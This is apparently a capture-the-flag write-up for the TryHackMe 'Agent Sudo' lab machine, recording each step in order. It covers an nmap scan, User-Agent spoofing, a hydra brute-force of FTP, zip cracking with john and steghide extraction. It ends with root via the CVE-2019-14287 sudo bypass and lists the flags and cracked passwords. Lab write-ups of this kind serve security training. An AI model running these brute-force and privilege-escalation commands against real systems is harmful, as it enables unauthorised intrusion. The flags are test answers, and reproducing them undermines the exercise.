 # Agent Sudo


## Task 1
Deploy the machine
```
export IP=10.10.133.118
```

## Task 2
Enumerate

1. How many open ports?         
There are 3 open ports:
```bash
jeffrowell@kali:~/Documents/TryHackMe/agentSudo$ nmap -sC -sV -Pn -n $IP -oN nmap/initial.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-15 00:29 MDT
Nmap scan report for 10.10.133.118
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.46 seconds
```


2. How you redirect yourself to a secret page?
```
User-Agent
```
In particular, we get a secret message page when supplying `C` as the user-agent:
```bash
jeffrowell@kali:~/Documents/TryHackMe/agentSudo$ curl -L --header "User-Agent: C" http://$IP
Attention chris, <br><br>
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>
From,<br>
Agent R
```

3. What is the agent name?
From the secret message above, the agent name is `chris`.

## Task 3
Hash cracking and brute-force
1. FTP password
We know the user is `chris` so lets use `hydra` and `rockyou.txt` to brute-force the password:
```bash
jeffrowell@kali:~/Documents/TryHackMe/agentSudo$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://$IP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-15 00:50:28
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.133.118:21/
[STATUS] 143.00 tries/min, 143 tries in 00:01h, 14344256 to do in 1671:50h, 16 active
[21][ftp] host: 10.10.133.118   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-15 00:52:18
```

2. Zip file password     
```
alien
```
Download 3 files from FTP resource, and doing some recon on the files we can see that it looks like `cutie.png` has a text file inside of it:
```bash
jeffrowell@kali:~/Documents/TryHackMe/agentSudo/ftp$ strings cutie.png | tail
d: ]
ZT%Q
p7a4u
^[=&
IEND
To_agentR.txt
W\_z#
2a>=
To_agentR.txt
EwwT
```
Extract the files from the images using `binwalk`:
```bash
jeffrowell@kali:~/Documents/TryHackMe/agentSudo/ftp$ binwalk -e cutie.png
DECIMAL       HEXADECIMAL     DESCRIPTION
 --------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
Inside the zip we have another archive that is password protected, and an empty `To_agentR.txt` file. We can use `zip2john` to convert the zip archive to a hash that `john` can work with, then crack the password:
```bash
jeffrowell@kali:~/Documents/TryHackMe/agentSudo/ftp$ /opt/JohnTheRipper/run/zip2john 8702.zip > zip_hash
jeffrowell@kali:~/Documents/TryHackMe/agentSudo/ftp/_cutie.png.extracted$ /opt/JohnTheRipper/run/john zip_hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 59 candidates buffered for the current salt, minimum 64 needed for performance.
Proceeding with wordlist:/opt/JohnTheRipper/run/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:03 DONE 2/3 (2020-05-15 20:52) 0.2958g/s 15750p/s 15750c/s 15750C/s 123456..faithfaith
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

3. steg password      
```
area51
```  
Now that we have the zip password, unzip the `8702.zip` archive and the `To_agentR` file is populated with data now:
```bash
jeffrowell@kali:~/Documents/TryHackMe/agentSudo/ftp/_cutie.png.extracted$ cat To_agentR.txt
Agent C,
We need to send the picture to 'QXJlYTUx' as soon as possible!
By,
Agent R
jeffrowell@kali:~/Documents/TryHackMe/agentSudo/ftp/_cutie.png.extracted$ echo 'QXJlYTUx' | base64 -d
Area51
```

4. Who is the other agent (in full name)?
```
james
```
Now that we have the steg password, we can use `steghide` to extract data out of the other image from the FTP server:
```bash
jeffrowell@kali:~/Documents/TryHackMe/agentSudo/ftp$ steghide extract -sf cute-alien.jpg
Enter passphrase:
wrote extracted data to "message.txt".
jeffrowell@kali:~/Documents/TryHackMe/agentSudo/ftp$ cat message.txt
Hi james,
Glad you find this message. Your login password is hackerrules!
Don't ask me why the password look cheesy, ask agent R who set this password for you.
Your buddy,
chris
```

5. SSH password
```
hackerrules!
```

## Task 4
Capture the user flag

1. What is the user flag?
```bash
james@agent-sudo:~$ cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
```

2. What is the incident of the photo called?
```
Roswell alien autopsy
```

## Task 5
Privelege escalation

1. CVE number for the escalation
Output from running sudo:
```bash
james@agent-sudo:/$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
```
CVE-2019-14287
```

2. What is the root flag?
```
b53a02f55b57d4439e3341834d70c062
```
```bash
james@agent-sudo:/$ sudo -u#-1 bash
root@agent-sudo:/# id
uid=0(root) gid=1000(james) groups=1000(james)
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt
To Mr.hacker,
Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.
Your flag is
b53a02f55b57d4439e3341834d70c062
By,
DesKel a.k.a Agent R
```

3. (Bonus) Who is Agent R?
```
DesKel
```
